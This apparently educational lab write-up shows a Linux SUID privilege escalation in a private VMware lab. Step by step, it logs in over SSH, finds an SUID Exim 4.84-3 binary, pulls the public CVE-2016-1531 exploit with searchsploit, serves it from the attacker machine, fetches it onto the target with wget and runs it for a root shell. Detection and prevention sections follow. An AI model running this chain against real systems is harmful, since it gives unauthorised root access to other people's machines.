









# SUID/SGID — Privilege Escalation

**Date:** July 2026 <br>
**Author:** ShahinSecLab <br>
**Category:** Privilege Escalation <br>
**Difficulty:** Medium <br>
**Tools:** SSH, find, searchsploit, wget, chmod

# Table of Contents

- [Introduction](#introduction)
- [Why This Attack Works](#why-this-attack-works)
- [Lab Setup](#lab-setup)
- [What I Needed Before Starting](#what-i-needed-before-starting)
- [What I Understood During the Process](#what-i-understood-during-the-process)
- [Attack Flow](#attack-flow)
- [Step 1 — Connecting to the Target via SSH](#step-1--connecting-to-the-target-via-ssh)
- [Step 2 — Finding SUID Binaries](#step-2--finding-suid-binaries)
- [Step 3 — Searching for an Exploit with Searchsploit](#step-3--searching-for-an-exploit-with-searchsploit)
- [Step 4 — Downloading the Exploit to the Target](#step-4--downloading-the-exploit-to-the-target)
- [Step 5 — Running the Exploit and Getting Root](#step-5--running-the-exploit-and-getting-root)
- [How Defenders Can Catch This](#how-defenders-can-catch-this)
- [How to Prevent It](#how-to-prevent-it)
- [References](#references)
- [What I Achieved](#what-i-achieved)

## Introduction

SUID (Set User ID) is a special Linux file permission bit. When a binary has the SUID bit set, it runs as the owner of the file — not as the user who launched it. Most SUID binaries on a system are owned by root, which means they run as root regardless of who executes them. If one of those binaries is vulnerable or can be abused, a normal user can use it to get a root shell.

## Why This Attack Works

Linux uses file permission bits to control who can read, write, or execute files. The SUID bit is an extra permission that tells the system to run the file as its owner instead of the person running it. This is used legitimately by tools like `passwd` — which needs root access to modify /`etc/shadow` even when run by a normal user.

The problem comes in when a binary with the SUID bit set is either:

- Vulnerable to a known CVE — like Exim 4.84-3 in this case
- Abusable to spawn a shell — like `find`, `vim`, or `bash` with the SUID bit set

In either case, since the binary runs as root, whatever it does — including spawning a shell — happens as root.

## Lab Setup

| Component        | Details                                  |
|------------------|------------------------------------------|
| Attacker Machine | Kali Linux                               |
| Victim Machine   | Debian Linux                             |
| Victim IP        | 192.168.5.133                            |
| Access Method    | SSH with valid low-privilege credentials |
| Network          | VMware Host-Only Network                 |

## Tools Prepared on Kali Before Starting

|            Tool          |                Purpose                      |
|--------------------------|---------------------------------------------|
| `searchsploit`           | Find known exploits for discovered binaries |
| `python3 -m http.server` | Host the exploit file for download          |
| `wget`                   | Download the exploit onto the target        |


## What I Needed Before Starting

|             What                         |                       Why                           |
|------------------------------------------|-----------------------------------------------------|
| SSH credentials for a low-privilege user | Starting point for the attack                       |
| `find` command                           | To scan the system for SUID binaries                |
| `searchsploit` on Kali                   | To find a working exploit for the vulnerable binary |
| Python HTTP server                       | To host the exploit file for the target to download |

## What I Understood During the Process

While working through this attack I realized that:

- Finding SUID binaries should be one of the first things checked on any Linux machine after getting initial access
- Most SUID binaries on a system are there for legitimate reasons — the key is spotting the ones that are unusual or outdated
- exim-4.84-3 stood out straight away because it is a mail server binary and does not need to be SUID in most environments
- Searchsploit made finding the right exploit fast — I just copied the version number and searched
- The exploit worked straight out of the box without any modifications needed

## Attack Flow
```
Connected to the target over SSH with low privilege credentials
                        ↓
Ran find to locate all SUID binaries on the system
                        ↓
Spotted /usr/sbin/exim-4.84-3 as an unusual SUID binary
                        ↓
Searched for exploits with searchsploit exim 4.84-3
                        ↓
Found CVE-2016-1531 local privilege escalation exploit (39535.sh)
                        ↓
Downloaded the exploit to Kali with searchsploit -m 39535
                        ↓
Started Python HTTP server on Kali
                        ↓
Downloaded the exploit to the target with wget
                        ↓
Added execute permission with chmod +x
                        ↓
Ran the exploit with ./39535.sh
                        ↓
Got a root shell immediately
                        ↓
                whoami → root
```

## Step 1 — Connecting to the Target via SSH

```bash
ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedAlgorithms=+ssh-rsa user@192.168.5.133
```
**Breakdown**

- `-o HostKeyAlgorithms=+ssh-rsa` : Allows older RSA host key algorithm — needed for older Linux systems
- `-o PubkeyAcceptedAlgorithms=+ssh-rsa` : Allows older RSA public key algorithm for authentication
- `192.168.5.133` : Target IP
- `user`: User Name

**Output:**

```
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
user@192.168.5.133's password: 
Linux debian 2.6.32-5-amd64 #1 SMP Tue May 13 16:34:35 UTC 2014 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jun 30 12:32:04 2026 from 192.168.5.128
```
It prompted for the password right after the connection request, I typed `password321`, and got logged in successfully. The kernel version 2.6.32 stood out right away.

I logged in as `user` — a normal low privilege account on the system.

<p align="center">
  
</p>

## Step 2 — Finding SUID Binaries

I searched the system for files with the SUID bit set using the following command:

```bash
user@debian:~$ find / -type f -perm -4000 2>/dev/null
```

**Flag Breakdown**

|  Flag         |            Description                                           |
|---------------|------------------------------------------------------------------|
| `find /`      | Starts searching from the root of the filesystem.                |
| `-type f`     | Searches for files only.                                         |
| `-perm -4000` | Finds files with the SUID bit set.                               |
| `2>/dev/null` | Redirects error messages to `/dev/null` to keep the output clean.|

**Output:**

```
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/sudoedit
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/local/bin/suid-so
/usr/local/bin/suid-env
/usr/local/bin/suid-env2
/usr/sbin/exim-4.84-3
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/pt_chown
/bin/ping6
/bin/ping
/bin/mount
/bin/su
/bin/umount
/sbin/mount.nfs
```
Most of these are normal system binaries that are supposed to have the SUID bit set. But a few stood out as unusual:

- `/usr/local/bin/suid-so`
- `/usr/local/bin/suid-env`
- `/usr/local/bin/suid-env2`
- `/usr/sbin/exim-4.84-3`

The most interesting binary was `/usr/sbin/exim-4.84-3`. Exim is a mail transfer agent, and this version is known to be vulnerable to a local privilege escalation vulnerability when installed with the SUID bit set.

<p align="center">
  
</p>

## Step 3 — Searching for an Exploit with Searchsploit

After identifying the Exim version on the target, I searched for known exploits on my Kali machine using `searchsploit`.

```bash
searchsploit exim 4.84-3
```
**Output:**

```
Exploit Title                                              |  Path
-----------------------------------------------------------|------------------------
Exim 4.84-3 - Local Privilege Escalation                   | linux/local/39535.sh
Exim < 4.86.2 - Local Privilege Escalation                 | linux/local/39549.txt
Exim < 4.90.1 - 'base64d' Remote Code Execution            | linux/remote/44571.py
PHPMailer < 5.2.20 with Exim MTA - Remote Code Execution   | php/webapps/42221.py
```
The first result matched what I was looking for: **Exim < 4.86.2 - Local Privilege Escalation** (`linux/local/39535.sh`).
Since the target was running **Exim 4.84-3**, which is older than **4.86.2**, this exploit was applicable to the target.

<p align="center">
  
</p>

### Downloaded the Exploit to Kali

I downloaded the exploit from the local Exploit Database repository on my Kali machine using `searchsploit`.

```bash
searchsploit -m 39535
```
**Output:**

```
Exploit: Exim 4.84-3 - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/39535
     Path: /usr/share/exploitdb/exploits/linux/local/39535.sh
    Codes: CVE-2016-1531
 Verified: True
File Type: POSIX shell script, ASCII text executable
Copied to: /home/kali/39535.sh
```
The `-m` option copied the exploit from the local Exploit Database repository to my current working directory as `39535.sh`. This made it ready to transfer to the target machine.

<p align="center">
  
</p>

## Step 4 — Downloading the Exploit to the Target

### Started Python HTTP Server on Kali

I started a simple HTTP server on my Kali machine to make the exploit available for download.

```bash
python3 -m http.server 80
```
<p align="center">
  
</p>

### Downloaded the Exploit on the Target Machine

On the target machine, I used `wget` to download the exploit from my Kali machine.

```
user@debian:~$ wget http://192.168.5.128/39535.sh
```
**Output:**

```
--2026-07-04 06:23:44--  http://192.168.5.128/39535.sh
Connecting to 192.168.5.128:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 638 [application/x-sh]
Saving to: “39535.sh.1” 

100%[================================================>] 638

2026-07-04 06:23:44 (211 MB/s) - “39535.sh.1” saved [638/638]
```
<p align="center">
  
</p>

### Confirming the File Was Downloaded

```bash
user@debian:~$ ls -l 39535.sh
```

```
-rw-r--r-- 1 user user 638 Jul  4 06:17 39535.sh
```
**Breakdown**

| Permission | Who    |            What it Means                           |
|------------|--------|----------------------------------------------------|
| `rw-`      | User   | The owner can read from and write to the file.     |
| `r--`      | Group  | Members of the file's group can only read the file.|
| `r--`      | Others | All other users can only read the file.            |

The exploit was downloaded successfully, but it did not have execute permission. I needed to make it executable before I could run it.

<p align="center">
  
</p>

## Step 5 — Running the Exploit and Getting Root

### Added Execute Permission

Before running the exploit, I made it executable.

```bash
user@debian:~$ chmod +x 39535.sh
```
### Confirmed the Permission Change

```bash
user@debian:~$ ls -l 39535.sh
```
```
-rwxr-xr-x 1 user user 638 Jul  4 06:17 39535.sh
```
The execute bit was now set, so the script was ready to run.

<p align="center">
  
</p>

### Ran the Exploit

```bash
user@debian:~$ ./39535.sh
```
**Output:**

```
[ CVE-2016-1531 local root exploit
sh-4.1#
```
The exploit completed successfully and dropped me into a root shell.

<p align="center">
  
</p>

### Confirmed Root Access

```bash
sh-4.1# whoami
```
```
root
```
```bash
sh-4.1# id
```
```
uid=0(root) gid=1000(user) groups=0(root)
```
The `whoami` and `id` commands confirmed that I had successfully gained root privileges by exploiting the vulnerable SUID Exim binary (CVE-2016-1531).

<p align="center">
  
</p>

## How Defenders Can Catch This

|                     Indicator                            |            What to Look For                   |
|----------------------------------------------------------|-----------------------------------------------|
| Unusual SUID binaries on the system                      | Regular SUID audits                           |
| Exploit script downloaded using `wget` or `curl`         | Network monitoring and process logs           |
| Unexpected root shell spawned from a normal user session | Audit logs (for example, `/var/log/auth.log`) |
| Outdated software with known CVEs                        | Regular vulnerability scans                   |
| `chmod` run on a newly downloaded script                 | File activity monitoring                      |

## How to Prevent It

- **Audit SUID binaries regularly**

Run this regularly and compare against a known good baseline:

```bash
find / -type f -perm -4000 2>/dev/null
```
Remove the SUID bit from any binary that does not absolutely need it:

```bash
chmod u-s /usr/sbin/exim-4.84-3
```

- **Keep software updated**

CVE-2016-1531 was patched in Exim 4.86.2. Keeping software updated removes the vulnerability completely:

```bash
sudo apt update && sudo apt upgrade
```
- **Remove unnecessary software**

If Exim or any other mail server is not needed on the machine, remove it completely:

```bash
sudo apt remove exim4
```

- **Monitor for unusual SUID binaries**

Use file integrity monitoring tools like AIDE or Tripwire to alert you when the SUID bit is set on any file outside of the normal baseline.

- **Restrict outbound connections from servers**

If the target machine could not reach my Kali HTTP server, the exploit download would have failed. Restricting outbound connections limits what an attacker can pull onto the machine.

## What I Achieved

By completing this attack I showed that:

- A single SUID binary with a known CVE was enough to go from a normal user to full root access
- Searchsploit made finding the right exploit fast — just copy the version number and search
- The exploit worked straight out of the box without any modifications
- Outdated software with the SUID bit set is one of the most common privilege escalation paths found in real Linux environments
- Regular SUID audits and software updates would have prevented this completely

## References

- Exploit Database — CVE-2016-1531 : https://www.exploit-db.com/exploits/39535 
- CVE Details — CVE-2016-1531 : https://www.cvedetails.com/cve/CVE-2016-1531 
- GTFOBins : https://gtfobins.github.io 
- MITRE ATT&CK — SUID and SGID : https://attack.mitre.org/techniques/T1548/001
- HackTricks — SUID Privilege Escalation : https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#suid-and-sgid 
- PayloadsAllTheThings — SUID : https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#suid 